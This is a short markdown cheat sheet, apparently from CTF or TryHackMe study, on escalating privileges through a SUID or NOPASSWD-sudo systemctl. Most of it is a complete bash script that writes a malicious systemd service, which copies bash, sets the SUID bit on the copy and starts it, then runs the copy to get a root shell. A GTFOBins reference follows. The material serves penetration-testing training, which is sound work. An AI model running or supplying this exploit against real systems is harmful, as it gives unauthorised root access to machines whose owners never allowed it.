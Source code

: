 # Exploiting "systemctl"

If systemctl is SUID root, then a malicious service file can easily be abused to create a root shell.

```bash
FILE=`mktemp -u`
echo "[Service]" >> $FILE.service
echo "Type=oneshot" >> $FILE.service
echo "ExecStart=/bin/cp /bin/bash $FILE.sh" >> $FILE.service
echo "ExecStart=/bin/chmod +xs $FILE.sh" >> $FILE.service
echo "[Install]" >> $FILE.service
echo "WantedBy=multi-user.target" >> $FILE.service
systemctl link $FILE.service
systemctl start $FILE.service
$FILE.sh -p # Root!
```

Even if systemctl is not SUID root, so long as you have NOPASSWD sudo access to it this trick will work.

* [TryHackMe: Complete Beginner](https://tryhackme.com/path/outline/beginner)
* [GTFOBins: systemctl](https://gtfobins.github.io/gtfobins/systemctl/)
